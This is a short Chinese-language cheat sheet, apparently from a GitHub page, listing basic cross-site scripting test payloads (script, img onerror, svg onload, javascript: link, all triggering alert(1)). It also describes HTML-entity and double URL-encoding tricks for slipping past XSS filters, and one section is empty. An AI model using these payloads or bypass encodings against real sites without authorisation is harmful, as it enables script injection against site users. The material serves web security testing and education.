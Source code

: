 ## XSS测试语句
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

## xss绕过编码方式
### JS编码

### HTML 实体编码
命名实体：以&开始，以分号结束。例如"<" 的HTML实体编码为"&lt\; " 
字符编码：十进制、十六进制ASCII码活Unicode字符编码，样式为"&#数值;",例如"<"可以编成"&＃060;"

### URL编码
这里的U也编码，也是两次URL全编码的结果。如果 alert被过滤，结为%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34。

